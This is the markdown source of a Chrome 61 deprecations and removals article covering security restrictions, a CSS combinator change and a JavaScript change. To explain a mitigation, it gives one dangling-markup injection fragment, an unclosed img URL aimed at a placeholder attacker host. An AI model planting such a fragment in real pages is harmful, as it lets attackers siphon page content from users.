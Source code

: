 project_path: /web/_project.yaml
book_path: /web/updates/_book.yaml
description: A round up of the deprecations and removals in Chrome 61 to help you plan. In this version, security improvements, further webkit deprecations, and more.

{# wf_updated_on: 2017-09-18 #}
{# wf_published_on: 2017-08-03 #}
{# wf_tags: deprecations,removals,chrome61 #}
{# wf_featured_image: /web/updates/images/generic/warning.png #}
{# wf_featured_snippet: A round up of the deprecations and removals in Chrome 61 to help you plan. In this version, more restrictions on insecure origins and a change to the shadow-piercing descendant combinator. #}

# Deprecations and Removals in Chrome 61 {: .page-title }

{% include "web/_shared/contributors/josephmedley.html" %}

In nearly every version of Chrome, we see a significant number of updates and
improvements to the product, its performance, and also capabilities of the Web
Platform. This article describes the deprecations and removals in Chrome 61,
which is in beta as of August 3. This list is subject to change at any time.

## Security and Privacy

### Block resources whose URLs contain '\n' and '&lt;' characters.

There is a type of hacking called *dangling markup injection* in which a
truncated URL is used to send data to an external endpoint. For example,
consider a page containing `<img src='https://evil.com/?`. Because the URL has no
closing quote, browsers will read to the next quote that occurs and treat the
enclosed characters as if it were a single URL.

Chrome 61 mitigates this vulnerability by restricting the character sets
allowed in `href` and `src` attributes. Specifically, Chrome will stop
processing URLs when it encounters new line characters (`\n`) and less than
characters (`<`).

Developers with a legitimate use case for new line and less than characters in a
URL should instead escape these characters.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/KaA_YNOlTPk/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/5735596811091968) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=680970)

### Remove usage of notifications from insecure iframes

Permission requests from iframes can confuse users since it is difficult to
distinguish between the containing page's origin and the origin of the iframe
that is making the request. When the requests scope is unclear, it is difficult
for users to judge whether to grant or deny permission.

Disallowing notifications in iframes will also align the requirements for
notification permission with that of push notifications, easing friction for
developers.

Developers who need this functionality can open a new window to request
notification permission.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/n37ij1E_1aY/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/6451284559265792) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=695693)


### Deprecate and remove Presentation API on insecure contexts

It's been found that on insecure origins, the Presentation API can be used as a
hacking vector on insecure origins. Since displays don't have address bars the
API can be used to spoof content. It's also possible to exfiltrate data from
running presentation.

In aligning with Blink’s intention to [remove powerful features on insecure
origins](https://www.chromium.org/Home/chromium-security/
deprecating-powerful-features-on-insecure-origins), we plan to deprecate and
remove support for the Presentation API on insecure contexts. Starting in Chrome
61, `PresentationRequest.start()` will no longer function on insecure origins.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/lumj0lVdtHA/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/5766218384408576) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=733381)


## CSS

### Make shadow-piercing descendant combinator behave like descendent combinator

Note: This change was originally slated for Chrome 60, but was bumped after
Chrome 60 removals were published.

The shadow-piercing descendant combinator (`>>>`), part of
[CSS Scoping Module Level 1](https://drafts.csswg.org/css-scoping/)
, was intended to match the children of a particular ancestor element
even when they appeared inside of a shadow tree. This had some limitations.
First, [per the spec](https://drafts.csswg.org/css-scoping/#deep-combinator), it
could only be used in JavaScript calls such as `querySelector()` and did not
work in stylesheets. More importantly, browser vendors were unable to make it
work beyond one level of the Shadow DOM.

Consequently, the descendant combinator has been removed from relevant specs
including Shadow DOM v1. Rather than break web pages by removing this selector
from Chromium, we've chosen instead to alias the shadow-piercing descendent
combinator to the descendant combinator. The original behavior was
[deprecated in Chrome 45](https://www.chromestatus.com/features/6750456638341120).
The new behavior is implemented in Chrome 61.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/HX5Y8Ykr5Ns/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/4964279606312960) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=489954)

## JavaScript

### Disallow defining of indexed properties on windows

Previously some browsers allowed for JavaScript assignments like the following:

    window[0] = 1;

The [current HTML spec
notes](https://html.spec.whatwg.org/multipage/window-object.html#windowproxy-defineownproperty)
that this is an explicit violation of
the JavaScript spec. As such, this ability is removed in Chrome 61. As of
February 2016, Firefox is already in compliance.

[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=695385)

<<../../_deprecation-policy.md>>

{% include "comment-widget.html" %}
